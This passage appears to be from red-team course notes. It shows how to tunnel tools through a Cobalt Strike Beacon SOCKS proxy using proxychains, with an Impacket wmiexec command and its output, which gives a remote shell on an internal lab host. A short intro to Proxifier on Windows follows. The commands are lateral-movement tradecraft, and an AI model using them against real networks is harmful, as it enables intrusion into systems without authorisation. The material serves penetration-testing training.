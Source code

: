 ## Linux Tools

<mark style="color:yellow;">`proxychains`</mark> is a tool which acts as a wrapper around other applications to tunnel their traffic over a **SOCKS** proxy.&#x20;

**First, we need to modify its configuration file to point to our Cobalt Strike SOCKS proxy server:**

```
attacker@DESKTOP-3BSK7NO ~> sudo vim /etc/proxychains.conf
```

At the bottom of the file, you will see a default entry for SOCKS4:  <mark style="color:yellow;">`socks4 127.0.0.1 9050`</mark>. &#x20;

**We need to change this to match the settings of the proxy we started in Beacon:**

* <mark style="color:$success;">**SOCKS4**</mark>:  <mark style="color:yellow;">`socks4 127.0.0.1 1080`</mark>

OR

* <mark style="color:$success;">SOCKS5</mark>:  <mark style="color:yellow;">`socks5 127.0.0.1 1080 myUser myPassword`</mark>

**To tunnel a tool through&#x20;**<mark style="color:yellow;">**`proxychains`**</mark>**, it's as simple as&#x20;**<mark style="color:yellow;">**`proxychains [tool] [tool args]`**</mark>**.  So to tunnel&#x20;**<mark style="color:yellow;">**`wmiexec`**</mark>**, it would be:**

```
ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:135-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:49667-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
dev\jking

C:\>hostname
web
```

## Windows Tools

We can also _<mark style="color:$success;">**tunnel traffic from our Windows machine**</mark>_ using a software utility called [<mark style="color:yellow;">`Proxifier`</mark>](https://www.proxifier.com/).&#x20;

**To create a new proxy entry, go to Profile > Proxy Servers.  Click Add and enter the relevant details:**
